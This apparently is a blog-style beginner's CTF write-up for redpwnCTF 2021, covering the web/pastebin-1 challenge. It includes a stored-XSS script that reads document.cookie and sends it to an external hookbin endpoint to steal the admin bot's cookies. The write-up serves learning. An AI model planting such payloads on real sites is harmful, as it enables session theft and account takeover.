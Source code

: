 ```yaml
---
title: redpwnCTF 2021
subtitle: A noob's perspective
authors:
    - Loek
    - Willem
date: July 13 2021
tags:
    - hacking
    - CTF
    - writeup
cover: /img/redpwn2021.png
---
```


This is the first 'real' CTF I've participated in. About two weeks ago, a
friend of mine was stuck on some challenges from the Radboud CTF. This was a
closed CTF more geared towards beginners (high school students), and only had a
few challenges which required deeper technical knowledge of web servers and
programming. Willem solved most of the challenges, and I helped solve 3 more.

Apart from those challenges, basically all my hacking knowledge comes from
computerphile videos, liveoverflow videos and making applications myself.

> epic announcement!!!
> 
> Willem has added explanations of the challenges he solved, so go read them!

## Challenges

### web/pastebin-1

This challenge is a simple XSS exploit. The website that's vulnerable is
supposed to be a clone of pastebin. I can enter any text into the paste area,
and it will get inserted as HTML code into the website when someone visits the
generated link.

The challenge has two sites: one with the pastebin clone, and one that visits
any pastebin url as the website administrator. The goal of this challenge is
given by it's description:

> Ah, the classic pastebin. Can you get the admin's cookies?

In JS, you can read all cookies without the `HttpOnly` attribute by reading
`document.cookie`. This allows us to read the cookies from the admin's browser,
but now we have to figure out a way to get them sent back to us.

Luckily, there's a free service called [hookbin](https://hookbin.com/) that
gives you an http endpoint to send anything to, and look at the request
details.

Combining these two a simple paste can be created:

```html
<script>
	var post = new XMLHttpRequest();
	post.open("post", "https://hookb.in/<endpoint url>");
	post.send(document.cookie);
</script>
```
